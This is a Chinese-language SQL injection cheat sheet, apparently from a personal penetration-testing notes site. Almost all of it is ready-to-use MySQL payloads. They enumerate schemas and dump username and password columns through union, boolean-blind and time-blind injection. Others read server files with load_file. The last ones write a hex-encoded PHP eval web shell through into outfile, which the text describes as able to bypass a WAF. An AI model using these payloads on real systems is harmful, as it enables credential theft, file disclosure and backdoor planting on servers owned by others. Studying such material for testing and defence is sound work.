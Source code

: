 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: SQL注入
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-18
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - SQL注入
comment: false
---
```

## 0x01 普通手动注入
 ### 1. 判断是否存在注入点
```sql
单引号， and 1=1 ，and 1=2 ，双引号，反斜杠，注释等
```
根据报错信息，返回内容判断是否存在sql注入
### 2. 判断是否存在注入点
逐步提高order by 1列号，出现错误时表示超过表的列数
```sql
order by 1 --
```
### 3. 判断字段的显示位
观察1，2，3的显示位置判断字段显示位
```sql
union select 1,2,3 --
```
### 4. 获取当前数据库信息
database(): 查看当前数据库名称
version(): 查看数据库版本信息
user(): 返回当前数据库连接使用的用户
可以使用group_concat()函数将多个字段连在一起当作一个字段中显示
```sql
union select 1,group_concat(database(),version()),3 --
```
### 5. 获取数据库中的表信息
ps：table_schema='数据库名'
```sql
union select 1,group_concat(char(32),table_name,char(32)),3 from information_schema.tables where table_schema='security' -- '
```
### 6.获取表中的列信息
```sql
union select 1,group_concat(char(32),column_name,char(32)),3 from information_schema.columns where table_name='users' -- '
```
### 7.获取数据
```sql
union select 1,group_concat(char(32),username,char(32),password),3 from users -- '
```

## 0x02 bool盲注
### 1.猜测长度
```sql
and length(database())>1 #
```
### 2.猜测库名
```sql
and ascii(substr(database(),1,1))>97 #
```
### 3.猜测表名
- 猜测表的数量
```sql
and (select count(table_name) from information_schema.tables where table_schema=database())=2#
```
- 猜测表的长度
```sql
and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #
```
- 获取表名
```sql
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #
```

### 4. 猜测字段长度
```sql
and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 #
```

### 5.猜测字段
```sql
and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120 #
```

## 0x03 基于时间的盲注
### 1. 判断数据库长度
```sql
and if(length(database())=4,sleep(3),1) #
```
### 2. 猜测数据库名称
```sql
and if(ascii(substr(database(),1,1))>97,sleep(3),1)#
```
### 3. 猜测表的数量
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```
### 4. 猜测表名的长度
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```

### 5. 猜测字段
```sql
and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120,sleep(5),1) #
```
## 0x04 其他函数
- MID(ColumnName, Start, Length]) - 用于从文本字段中提取字符
```sql
SELECT MID(column_name,start,length]) FROM table_name
```
- LEFT(str,len) - 返回字符串str的最左面len个字符
- ASCII(str) - 返回字符串str的最左面字符的ASCII代码值。如果str是空字符串，返回0。如果str是NULL，返回NULL
```sql
ascii(substr((select table_name from information_schema.tables where table_schema =database()limit 0,1),1,1))=101 –+
```
- CAST() - 将目标str转化为目标数据类型
```sql
SELECT CAST(’12’ AS int)     
```
- IFNULL(expr1,expr2) - 如果expr1不是NULL，IFNULL()返回expr1，否则它返回expr2
- LOAD_FILE
说明：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
  ```sql
  -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
  ```
说明：“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
  ```sql
  -1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)
  ```
将其他路径包含一句话木马的文件导出成php来链接
  ```sql
  select load_file('c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini') into outfile 'c:\\wamp\\www\\test.php'
  ```

## 0x05 读文件/写shell
  - union方式  
    ```sql
    -1 union select 1,user(),3 into outfile "C:\\test.txt" --+
    ```
  - 16进制写shell <    ?   eval($_POST[x]);?>可以过waf
    ```sql
    -1 union select 0x3c,0x3f,0x6576616C28245F504F53545B785D293B3F3E into outfile "C:\\test.php" --+
    ```
  - 分隔符写shell
  ```sql
  select * from admin where id=1 into outfile 'F:\WWW\phpinfo.php' fields terminated by '<? phpinfo(); ?>'%23     #分隔符也可以用16进制表示
  ```
  - 读文件
  ```sql
  select load_file('c:/boot.ini')
  ```
